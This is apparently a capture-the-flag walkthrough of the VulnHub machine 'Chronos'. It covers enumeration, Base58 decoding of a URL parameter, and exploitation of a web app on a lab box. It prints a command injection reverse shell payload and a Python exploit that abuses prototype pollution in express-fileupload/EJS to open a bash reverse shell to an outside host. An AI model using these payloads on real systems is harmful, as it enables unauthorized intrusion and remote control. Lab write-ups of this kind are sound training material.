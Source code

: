 # Chronos

![image](https://user-images.githubusercontent.com/5285547/129067750-516ca744-9b4c-4347-982f-5d4a36e431e9.png)

Room link: https://www.vulnhub.com/entry/chronos-1,735/

## Enum

Nmap 

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```


# Port 80

Nothing much on the home page, refreshing and checking in the dev networks tools shows a strage url request

![image](https://user-images.githubusercontent.com/5285547/129068515-2591006b-ed4a-411c-99f3-540e35be3aef.png)


```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

Add chronos.local to /etc/hosts file

Now on the page we see the result. 

![image](https://user-images.githubusercontent.com/5285547/129071126-5810cb0f-273c-473e-a8de-a117fc8b32d9.png)

Checking the encoding, it turns out its Base58

![image](https://user-images.githubusercontent.com/5285547/129075155-f2d4cab2-28b4-4fa5-94e0-bb741ec74391.png)

![image](https://user-images.githubusercontent.com/5285547/129083902-4b104c8a-ba76-4b90-9a19-8ddf1f623217.png)

Next was to get a reverse shell. 

```
# payload
;bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1";
```

![image](https://user-images.githubusercontent.com/5285547/129084566-7f38c45b-3083-47b7-b3c5-667bcac3b5e2.png)

Finding another webservice on 127.0.0.1:8080, I checked the system for the files. 

```
www-data@chronos:/opt/chronos-v2/backend$ pwd
/opt/chronos-v2/backend
```
```
www-data@chronos:/opt/chronos-v2/backend$ cat server.js 
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```

cat package.json

```
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",                                                                                                                                                                                                                              
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

This article helps top explain the node express fileupload vuln: https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325




---
## User




reverse shell

```
### imports
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.1.96/8888 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://127.0.0.1:8080')
print("Finished!")

```


